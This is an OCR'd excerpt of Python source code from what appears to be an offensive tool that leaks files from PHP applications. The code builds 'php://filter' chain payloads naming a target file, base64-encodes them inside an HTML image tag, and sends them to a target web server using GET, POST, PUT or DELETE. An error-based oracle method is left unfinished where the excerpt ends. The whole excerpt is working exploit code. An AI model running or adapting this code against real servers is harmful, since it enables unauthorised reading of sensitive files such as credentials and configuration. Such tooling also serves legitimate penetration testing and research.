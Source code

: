 ```python
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) -1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
        payload = f"<img src='data:image/png;base64,{php_filter}'/>"
        # DEBUG print(php_filter)
        merged_data = self.parse_parameter(payload)
        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input: 
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
    def error_oracle(self, s):
        requ = self.req_with_response(s)

```